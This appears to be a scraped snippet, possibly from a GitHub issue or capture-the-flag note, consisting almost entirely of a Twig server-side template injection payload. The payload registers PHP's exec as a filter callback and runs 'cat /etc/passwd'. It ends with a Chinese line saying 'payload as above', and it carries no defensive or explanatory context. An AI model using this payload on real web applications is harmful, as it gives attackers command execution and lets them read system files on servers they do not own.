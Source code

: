 ``` php
{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('a=cat;b=/etc/passwd;$a $b')}}
```

payload如上